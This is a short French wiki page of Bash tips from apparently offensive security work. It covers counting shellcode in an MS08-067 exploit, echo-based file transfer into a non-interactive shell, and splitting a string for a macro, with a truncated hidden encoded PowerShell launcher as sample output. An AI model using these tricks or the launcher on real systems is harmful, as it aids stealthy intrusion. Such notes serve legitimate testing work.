```yaml
---
title: Bash
permalink: /Bash/
---
```


# Bash

## Commandes utiles
### Divers

Les commandes suivantes permettent de compter le nombre de caractères dans un shellcode:

``` bash
cat ms_08_067.py| grep "^shellcode" | awk '{print $3}' | cut -d'"' -f2 | sed ':a;N;$!ba;s/\n//g' | wc -c
```

Divisions en CLI

``` bash
v=$(cat tmp | cut -d'"' -f2 | tr -d '\n' | wc -c);echo $((v/4))
```

Faire tourner un outil en boucle sur chaque ligne d'un fichier
```
while read dom; do /opt/testssl.sh/testssl.sh --csv $dom ; done < domains.txt
```

### Sed Magic

Les commandes suivantes générent les commandes à taper pour copier/coller un fichier dans un shell non interactif:

``` bash
cat test | sed -e 's/^/echo /g' | sed -e 's/$/>> file.txt/g'
```

Découper une longue entrée sur plusieurs lignes:
``` bash
cat test | sed 's/.\{70\}/Str = Str + "&"\n/g'
Str = Str + "%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACg"
Str = Str + "AWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnA"
[...]
```

